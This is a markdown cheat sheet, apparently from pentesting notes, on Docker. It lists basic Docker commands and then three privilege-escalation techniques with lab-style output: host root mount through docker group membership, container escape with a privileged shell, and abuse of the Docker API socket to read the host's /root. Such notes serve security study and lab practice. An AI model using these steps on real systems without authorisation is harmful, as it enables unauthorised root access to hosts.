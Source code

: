 ```yaml
---
title: "Docker"
date: 2025-7-25
tags: ["Forensic", "Docker", "Container", "Dive", "Virtualization"]
---
```


### General

```console
# Show all running docker processes
sudo docker ps -a
```

```console
# Show all docker images
sudo docker images -a
```

```console
# Stop all docker [processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove all docker processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove all docker images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in container
sudo docker exec -it <CONTAINER_ID> bash
```

```console
# Privileged shell in container
sudo docker exec -it --privileged --user root <CONTAINER_ID> bash
```

```console
# Copy file from host to container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy file from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy folder from host to container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy folder from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

---

### Explore Docker Image

{{< tab set1 tab1 >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
dive docker-archive://image.tar
```

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

---

### Abuse #1: Docker Group

```console
# List docker images
docker images
```

```console {class="sample-code"}
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   2 years ago   5.53MB
```

```console
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_ID> sh
```

```console {class="sample-code"}
$ docker run -v /:/mnt -it d7d3d98c851f sh  
/ # 
```

```console
# Check
ls /mnt/root
```

```console {class="sample-code"}
/ # ls /mnt/root
root.txt
```

---

### Abuse #2: Docker Escape (with Root)

```console
# Take note of the host mount
mount
```

```console
# Spawn root shell
sudo docker exec -it --privileged --user root <CONTAINER_ID> bash
```

```console
# Mount host root filesystem
mount /dev/sda1 /mnt
```

```console
# Check
ls /mnt/root
```

---

### Abuse #3: Docker API

```console
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console {class="sample-code"}
root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

```console
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
{"Id":"ec28a9d1ae931fb81ac1c2640d1aac24bf1e7172bd6c42f02400659c299157cd","Warnings":[]}
```

```console
# Start container
curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -i -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/9115/start
HTTP/1.1 204 No Content
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Mon, 23 Sep 2024 04:29:11 GMT
```

```console
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

```console {class="sample-code"}
(remote) root@2d24bf61767c:/root# curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/9115/logs?stderr=1&stdout=1"
total 56
drwx------    6 root     root          4096 Sep 23 04:06 .
drwxr-xr-x   20 root     root          4096 Feb  9  2021 ..
lrwxrwxrwx    1 root     root             9 Jun 17  2020 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 Jun 30  2020 .cache
drwxr-xr-x    3 root     root          4096 Jun 30  2020 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            75 Jun 30  2020 .selected_editor
drwx------    2 root     root          4096 Jun 30  2020 .ssh
-rw-------    1 root     root         12235 Aug 26  2020 .viminfo
-rw-r--r--    1 root     root           165 Jun 30  2020 .wget-hsts
-rw-------    1 root     root            33 Sep 23 04:06 root.txt
drwxr-xr-x    3 root     root          4096 May 18  2020 snap
```

